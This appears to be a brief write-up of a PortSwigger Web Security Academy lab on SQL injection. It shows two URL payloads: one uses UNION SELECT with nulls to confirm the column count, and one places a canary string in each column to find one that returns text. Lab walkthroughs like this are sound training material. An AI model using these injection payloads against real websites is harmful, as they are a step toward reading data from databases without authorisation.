

# [SQLi: UNION, Finding a Column Containing Text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

First, [find the number of columns required](psa-sqli-union-attack-finding-number-of-columns-20250613.md).

Here's a working payload that demonstrates that the UNION needs three columns:

- `/filter?category=Gifts%27%20union%20select%20null,null,null--`

Then try the canary string in each position until it returns:

- `/filter?category=Gifts%27%20union%20select%20null,%270r4LBs%27,null--`:

